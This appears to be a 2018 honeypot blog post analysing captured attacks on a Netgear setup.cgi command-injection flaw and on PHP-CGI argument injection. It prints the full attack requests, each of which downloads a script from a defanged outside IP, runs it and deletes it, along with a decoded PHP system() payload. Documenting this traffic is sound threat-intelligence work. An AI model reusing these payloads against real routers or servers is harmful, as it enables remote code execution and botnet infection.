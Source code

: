 ```yaml
---
title: "Exploitation of an Old Netgear Bug, Popular Again"
#author: "Author Name"
description: "Description of some overnight attacks exploiting a Netgear vulnerability with widely-distributed exploit, and yet the attacker is still having decent success in the wild."
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-07-09T00:00:00-00:00
draft: false
---
```


Just a ton of what Glastopf reports as remote file inclusion attacks happened overnight, all of one similar type.  Almost exactly 700 exploitation attempts using the vulnerability exploited [here](https://www.exploit-db.com/exploits/43055/).  Requests that would redirect a Netgear device back to one of 3 different download servers came from 37 unique IP addresses, suggesting a good amount of success exploiting this old vulnerability.

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://80.211.91.217/mips+-O+/tmp/mips;sh+mips&curpath=/&currentsetting.htm=1
```

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://46.243.189.101/gang+-O+/tmp/gang;sh+gang&curpath=/&currentsetting.htm=1
```

```
/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+hxxp://213.183.53.120/netgear+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1
```

None of those download points are returning files at this time, unfortunately.

Separately, the server received a few POST requests attempting to directly execute PHP directly.

```
POST //cgi-bin/php?%2D%64+%61%6C%6C%6F%77%5F%75%72%6C%5F%69%6E%63%6C%75%64%65%3D%6F%6E+%2D%64+%73%61%66%65%5F%6D%6F%64%65%3D%6F%66%66+%2D%64+%73%75%68%6F%73%69%6E%2E%73%69%6D%75%6C%61%74%69%6F%6E%3D%6F%6E+%2D%64+%64%69%73%61%62%6C%65%5F%66%75%6E%63%74%69%6F%6E%73%3D%22%22+%2D%64+%6F%70%65%6E%5F%62%61%73%65%64%69%72%3D%6E%6F%6E%65+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%64+%63%67%69%2E%66%6F%72%63%65%5F%72%65%64%69%72%65%63%74%3D%30+%2D%64+%63%67%69%2E%72%65%64%69%72%65%63%74%5F%73%74%61%74%75%73%5F%65%6E%76%3D%30+%2D%64+%61%75%74%6F%5F%70%72%65%70%65%6E%64%5F%66%69%6C%65%3D%70%68%70%3A%2F%2F%69%6E%70%75%74+%2D%6E
```

This translates to:
```
//cgi-bin/php?-d allow_url_include=on -d safe_mode=off -d suhosin.simulation=on -d disable_functions="" -d open_basedir=none -d auto_prepend_file=php://input -d cgi.force_redirect=0 -d cgi.redirect_status_env=0 -d auto_prepend_file=php://input -n
```

The POST body was:
```php
<? system("cd /tmp ; wget -c -q  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr ; curl -O  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr; fetch  hxxp://139.199.211.175/data/data/msr;perl msr;rm -rf msr "); ?>
```

If someone had PHP installed or linked in cgi-bin, and a web server configured to permit it to execute, this would have downloaded and executed a Perl script, then erased its tracks.  The requesting URL was 139.219.100.104.  Both that and the download URL are on cloud service providers in China - TencentCloud and Microsoft (Microsoft's operated by "21Vianet").

Again, that download server isn't reachable at this point.
